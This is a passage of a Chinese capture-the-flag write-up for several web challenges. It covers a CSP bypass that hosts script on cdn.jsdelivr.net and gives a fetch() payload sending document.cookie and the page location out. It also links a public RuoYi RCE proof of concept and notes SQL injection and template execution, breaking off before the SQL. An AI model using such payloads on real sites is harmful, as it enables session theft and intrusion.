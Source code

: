 ```python
```

## Web

~~题目环境缺失，没有图片说明~~

### Snooker King

在得分的函数处打个断点，可以看到uid里有flag

### Jvav Guy

复现https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC

### Msgbox

```html
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'nonce-{{ nonce }}' cdn.jsdelivr.net;">
```

script-src允许来自cdn.jsdelivr.net的脚本加载，把恶意js传上cdn即可

```javascript
fetch("http://127.0.0.1:5000/send", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded",
    "pragma": "no-cache",
    "proxy-connection": "keep-alive",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://127.0.0.1:5000/send",
  "body": "header="+document.title+"&listener=ppp&content=123"+document.cookie+document.location,
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

### SmartPark

扫目录可以发现/swagger路由，暴露的backup接口可以拿源码，在此处可以sql注入

```go
tmpl := template.Must(template.New("text").Parse(string(body)))
	c.Writer.WriteHeader(http.StatusOK)
	tmpl.Execute(c.Writer, f)
```

以下sql可rce
